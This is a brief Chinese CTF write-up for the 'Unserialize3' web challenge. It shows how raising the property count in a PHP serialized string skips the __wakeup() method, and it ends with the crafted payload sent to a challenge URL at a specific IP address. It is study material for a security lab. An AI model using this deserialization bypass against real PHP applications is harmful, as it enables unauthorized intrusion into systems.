 ```yaml
---
title: Unserialize3
date: 2020-09-25 20:41:21
tags:
  - Writeups
  - WEB
  - unserialize
---
```


利用属性个数值异常跳出`__wakeup()`

<!-- more -->

首先看到

<img src="Unserialize3\first.png" style="zoom:50%;" />

> `wakeup()`漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过`wakeup`的执行。

反序列化代码

```php
<?php

class xctf{
    public $flag = '111';
    public function __wakeup(){
    exit('bad requests');
    }
}
$x = new xctf();
print(serialize($x));
?>
```

得到`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`

改为`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

访问`http://220.249.52.133:52850/?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}`

<img src="Unserialize3\flag.png" style="zoom:50%;" />